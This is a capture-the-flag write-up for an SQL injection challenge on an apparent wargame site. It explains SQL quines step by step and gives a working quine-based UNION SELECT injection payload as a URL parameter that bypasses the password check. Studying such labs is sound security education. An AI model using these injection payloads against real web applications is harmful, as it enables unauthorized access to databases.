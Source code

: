 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 30
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/1484f622-d41c-4263-9655-405d71ed15d5)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='{$_GET[pw]}'
```

If `$result['pw']` is equal `$_GET['pw']`, the challenge is solved.

If we provide the following URI parameter:

```
?pw=' UNION SELECT 1 -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT 1 -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/33c02c9b-464c-4920-b0aa-4d463a1bc01c)

In this case the `$result['pw']` and `$_GET['pw']` differ as follows:

```
$result['pw']: 1
$_GET['pw']: ' UNION SELECT 1 -- -
```

In order to make them the same, we have to use a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)) program.

&nbsp;

## Quine

An example of a SQL Quine is:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine',
Char(34),Char(39)),Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine')
AS Quine 
```
### Initial string

```sql
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine'
```
### First replacement

```sql
-- - SELECT Replace( -- -
Replace( 
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine', 
Char(34), 
Char(39)
)
-- - , Char(36), 'SELECT REPLACE(REPLACE("$",Char(34),Char(39)),Char(36),"$") AS Quine') AS Quine -- -
```

Replace all occurrences of `Char(34)` (double quote `"` Character) with `Char(39)` (single quote `'` Character):

```sql
-- - SELECT Replace( -- -
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine'
-- - , Char(36), 'SELECT REPLACE(REPLACE("$",Char(34),Char(39)),Char(36),"$") AS Quine') AS Quine -- -
```
### Second replacement

```sql
-- - SELECT -- -
Replace(
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine', 
Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine'
)
-- - AS Quine -- -
```

Replace all occurrences of `Char(36)` (dollar sign `$` Character) with the original string:

```sql
-- - SELECT -- -
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\',
Char(34),Char(39)),Char(36),
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\')
AS Quine'
-- - AS Quine -- -
```
### Putting it All Together

The final result of the query is the string after both replacements, as follows:

```sql
SELECT
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\',
Char(34), Char(39)), Char(36),
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\')
AS Quine'
AS Quine
```

When this SQL query is executed, it will produce a single column named `Quine` containing the following text:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine',
Char(34), Char(39)), Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine')
AS Quine
```

Thus, we can see how the query repeats itself.

&nbsp;
## Modified Quine

```sql
' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),char( 39)),char(36), 
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')
%23
```
### First replacement

```sql
-- - ' UNION SELECT Replace( -- -
Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),
char(39)
)
-- -,char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')%23 -- -
```

Replace all occurrences of `Char(34)` (double quote `"` Character) with `Char(39)` (single quote `'` Character):

```sql
-- - ' UNION SELECT Replace( -- -
'\' UNION SELECT Replace(Replace(\'$\',char(34),char(39)),char(36),\'$\')%23'
-- -,char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')%23 -- -
```
### Second replacement

```sql
-- - ' UNION SELECT -- -
Replace(
'\' UNION SELECT Replace(Replace('$',char(34),char(39)),char(36),'$')%23',
char(36),
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')
-- - %23 -- -
```

Replace all occurrences of `Char(36)` (dollar sign `$` Character) with the original string:

```sql
-- - ' UNION SELECT -- -
'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
,char(34),char(39)),char(36),
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
)%23'
-- - %23 -- -
```
### Putting it all together

The final result of the query is the string after both replacements, as follows:

```sql
' UNION SELECT 
\'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
,char(34),char(39)),char(36),
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
)%23'
%23
```

When this SQL query is executed, it will produce a single column named `Quine` containing the following text:

```sql
' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),char(39)),char(36),
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23'
)%23
```

We have successfully managed to create a Quine to solve this challenge.

&nbsp;

Now, we have to implement this for the challenge.
We will have to modify this Quine to the following:

```sql
UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -',Char(34),Char( 39)),Char(36),'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -') -- -
```

If we provide the following URI parameter:

```
?pw=' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -',Char(34),Char( 39)),Char(36),'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -') -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -',Char(34),Char( 39)),Char(36),'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/2022ca1c-e568-4989-aa51-186eaacd6810)
